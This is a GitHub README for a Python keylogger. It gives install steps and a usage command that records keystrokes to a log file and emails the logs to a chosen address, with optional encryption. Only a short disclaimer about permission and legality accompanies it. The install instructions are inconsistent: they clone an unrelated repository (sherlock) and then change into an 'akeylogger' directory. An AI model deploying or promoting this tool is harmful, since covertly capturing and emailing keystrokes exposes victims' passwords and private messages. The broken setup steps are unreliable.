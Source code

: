 <p align=center>
  <br>
  <a href="https://github.com/arnold-vianna?tab=repositories" target="_blank"><img src="https://avatars.githubusercontent.com/u/113808475?v=4"/></a>
  <br>
  <span>check out my website <a href="https://arnold-vianna.github.io/">arnold-vianna.github.io</a></span>
  <br>
</p>






## Installation

```console
# clone the repo
$ git clone https://github.com/sherlock-project/sherlock.git

# change the working directory to akeylogger
$ cd akeylogger

# install the requirements
$ python3 -m pip install -r requirements.txt
```

## Usage

```console
python keylogger.py -f keylog.txt -e <YourEmail@gmail.com> -d
```

## The action:
```
-f or --log-file: Specify the log file name and location (default: keylog.txt).

-e or --email: Email address to send logs to.

-d or --encrypt: Enable log file encryption.
```

## Keylogger in action:
```
The keylogger will start recording key presses. Press Ctrl+C to stop the keylogger.

Note: If you enabled email functionality, logs will be emailed to the specified address when you stop the keylogger
```



## Ethical and Legal Considerations

Please use this tool responsibly and ensure that you have the necessary permissions before deploying it for testing purposes. Unauthorized use of keyloggers or any tools that capture sensitive information can violate privacy and legal regulations.

## Disclaimer

The author and contributors are not responsible for any misuse or illegal activities facilitated by this tool. Be aware of and comply with the laws and regulations in your jurisdiction.

